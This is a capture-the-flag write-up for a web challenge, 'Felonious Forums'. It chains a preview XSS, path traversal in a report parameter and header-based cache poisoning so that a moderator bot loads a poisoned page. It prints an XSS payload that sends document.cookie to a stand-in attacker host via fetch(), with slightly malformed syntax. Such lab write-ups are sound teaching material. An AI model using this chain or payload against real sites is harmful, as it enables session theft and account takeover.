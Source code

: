 ### Name: Felonious Forums
#### Difficulty: Medium
#### Category: Web
Description:
> Our threat intelligence has traced a reseller of the GrandMonty Ransomware linked with the Monkey Business group to this illegal forums platform. We need you to investigate the platform to find any security loopholes that can provide us access to the platform.

---

Here's a quick writeup on `Felonious Forums [Web]`

The Preview thread option when you create a thread had an XSS. Also, in the report feature, you can intercept the request and in the `post_id` parameter is vulnerable to path traversal. So you can send input like `6/../../../../someotherpage.html` and it will actually move to `/someotherpage.html`. Now the application caches the response using a cache key which depends on three things:
- Host header
- URL
- X-Forwarded-For OR The client IP
Also, it caches the responses for like 30s.

The `/threads/preview` endpoint is where you see the thread contents in the preview. You can make a GET request to it to view it. When using the preview option, it adds a cachebuster like `?16354215868` at the end of the URL. So the preview URL is something like `/threads/preview?16354215868`. You can make a GET request to the page and it will show you the contents of the preview.

Now, moving to the attack:
- First you need to create a preview of a post that includes the XSS.
	- Include the following payload
		`![test](https://google.com/?"/onerror="fetch('http://ATTACKER-SITE?f=' + document.cookie '')`
- Now you need to preview it. Before making this request, we need to add/modify a few headers. Since the cache key depends on the Host header and the X-Forwarded-For header, we need to change the Host header to `127.0.0.1:1337` and add the X-Forwarded-For header to `127.0.0.1` so that it creates the cache that is valid for the bot (moderator). Now and copy the generated cachebuster value. Let's say `?16845635214684`.
- Finally, we need to send a report request that has the `post_id` as `6/../../../../../../threads/preview?16845635214684`. This will make the bot visit the cached page that includes our XSS. The XSS will send the cookie to our attacker server and we get the flag.
